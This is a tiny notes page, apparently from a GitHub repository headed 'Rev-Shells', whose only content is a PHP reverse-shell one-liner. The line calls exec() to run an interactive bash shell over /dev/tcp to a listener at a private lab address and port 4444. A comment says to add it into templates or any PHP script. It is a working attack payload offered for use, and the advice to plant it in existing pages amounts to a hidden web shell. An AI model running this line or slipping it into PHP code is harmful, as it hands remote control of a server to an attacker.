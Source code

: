 # Rev-Shells
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.6/4444 0>&1'"); --> PHP RevShell to add into templates or in any PHP Scripts
